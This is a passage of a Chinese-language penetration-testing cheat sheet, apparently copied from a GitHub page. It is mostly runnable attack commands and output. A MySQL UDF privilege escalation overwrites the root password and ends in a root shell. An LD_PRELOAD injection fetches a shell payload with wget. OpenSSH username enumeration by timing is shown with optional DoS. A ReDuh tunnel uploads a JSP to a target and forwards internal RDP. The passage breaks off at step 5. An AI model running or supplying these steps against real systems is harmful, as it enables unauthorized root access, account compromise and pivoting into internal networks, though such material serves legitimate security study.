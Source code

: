 > $ gcc -g -c raptor_udf2.c
> $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select do_system('echo "root:passwd" | chpasswd > /tmp/out; chown user:user /tmp/out');
user:~> $ su -
Password:
user:~# whoami
root
root:~# id
uid=0(root) gid=0(root) groups=0(root)
使用 LD_PRELOAD 注入程序
> $ wget https://github.com/jivoi/pentest/ldpreload_shell.c
> $ gcc -shared -fPIC ldpreload_shell.c -o ldpreload_shell.so
> $ sudo -u user LD_PRELOAD=/tmp/ldpreload_shell.so /usr/local/bin/somesoft
针对 OpenSSH 用户进行枚举时序攻击
注：枚举时序攻击(“Enumeration Timing Attack”)属于侧信道攻击/旁路攻击(Side Channel Attack)，侧信道攻击是指利用信道外的信息，比如加解密的速度/加解密时芯片引脚的电压/密文传输的流量和途径等进行攻击的方式，一个词形容就是“旁敲侧击”。–参考自 shotgun 在知乎上的解释。
osueta 是一个用于对 OpenSSH 进行时序攻击的 python2 脚本，其可以利用时序攻击枚举 OpenSSH 用户名，并在一定条件下可以对 OpenSSH 服务器进行 DOS 攻击。
# https://github.com/c0r3dump3d/osueta
> $ ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v yes
> $ ./osueta.py -H 192.168.10.22 -p 22 -d 15 -v yes –dos no -L userfile.txt
使用 ReDuh 构造合法的 HTTP 请求以建立 TCP 通道
注： ReDuh 是一个通过 HTTP 协议建立隧道传输各种其他数据的工具。其可以把内网服务器的端口通过 http/https 隧道转发到本机，形成一个连通回路。用于目标服务器在内网或做了端口策略的情况下连接目标服务器内部开放端口。
对了亲～ReDuh-Gui 号称端口转发神器哦。
# https://github.com/sensepost/reDuh
# 步骤 1
# 上传 reDuh.jsp 目标服务器
> $ http://192.168.10.50/uploads/reDuh.jsp
# 步骤 2
# 在本机运行 reDuhClient 
> $ java -jar reDuhClient.jar http://192.168.10.50/uploads/reDuh.jsp
# 步骤 3
# 使用 nc 连接管理端口
> $ nc -nvv 127.0.0.1 1010
# 步骤 4
# 使用隧道转发本地端口到远程目标端口
[createTunnel] 7777:172.16.0.4:3389
# 步骤 5